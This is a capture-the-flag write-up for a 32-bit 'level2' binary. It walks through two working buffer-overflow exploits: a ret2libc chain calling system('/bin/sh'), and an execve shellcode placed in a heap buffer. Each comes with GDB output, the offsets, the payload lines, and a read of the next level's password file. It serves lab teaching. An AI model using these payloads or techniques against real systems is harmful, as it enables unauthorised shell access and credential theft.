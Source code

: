 # Level 2

We found two methods here :

## Methode 1: ret2Libc

First, we have to check if there is an overflow and where.

```sh
$ python pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Let's start GDB and launch our program with this pattern

```sh
$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level2/level2 <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The program crash with 0x37634136 in final value, it's out point of entry. Now we can find the size of the buffer crashing the program.

```sh
$ python pattern.py --crash 37634136
Buffer crashed at size: 80
```

We have our offset, let's try to do a ret2libc exploit. It consists in adding a function call of libc at the end of the EIP register.
We are going to call system() with /bin/sh as argument let’s find those addresses with GDB.
We also need exit() to leave properly and the return address of the main.

```sh
$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) disass
Dump of assembler code for function main:
   0x0804853f <+0>:		push   %ebp
   0x08048540 <+1>:		mov    %esp,%ebp
=> 0x08048542 <+3>:		and    $0xfffffff0,%esp
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

We also have to find a string containing "/bin/sh", for this we will be helped by the environment:

```sh
$ export HACK=/bin/sh
$ /tmp/genv HACK ./level2
HACK will be at 0xbffff91d
```

A little resume of the situation:

```
offset:           80
ret address:      0x0804854b
system address:   0xb7e6b060
exit address:     0xb7e5ebe0
/bin/sh address:  0xbffff91d
```

Now, it's time for the exploit :D<br>
`[ OFFSET ] [ RETURN ADDRESS ] [ SYSTEM ADDRESS ] [ EXIT ADDRESS ] [ ARGS ADDRESS ]`

```sh
$ (python -c 'print("A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x1d\xf9\xff\xbf")'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X���
whoami
level3
cat /home/user/level3/.pass
```

Sources:<br>
[0xRick's Blog](https://0xrick.github.io/binary-exploitation/bof6/)<br>
[hackndo](https://beta.hackndo.com/retour-a-la-libc/)<br>
[CTF101](https://ctf101.org/binary-exploitation/buffer-overflow/)<br>
[0x0ff.info](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)<br>

## method 2: exec a shellcode stored in the malloced buffer

### shellcode executing system(/bin//sh):

\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

```sh
$ ndisasm -b32 shellcode
00000000  31C0              xor eax,eax
00000002  99                cdq                       # set edx at 0
00000003  50                push eax
00000004  682F2F7368        push dword 0x68732f2f
00000009  682F62696E        push dword 0x6e69622f
0000000E  89E3              mov ebx,esp
00000010  50                push eax
00000011  53                push ebx
00000012  89E1              mov ecx,esp
00000014  B00B              mov al,0xb
00000016  CD80              int 0x80
```

### offset is 80:

```sh
gdb ./level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

0x37634136 => 80
(https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

### in rainfall we get the address of the malloced string:

```sh
$ ltrace ./level2 <<< coucou
strdup("coucou")  = 0x0804a008
```

### the hack:

```sh
$ (python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x41" * 56 + "\x08\xa0\x04\x08")';cat) | ./level2
```
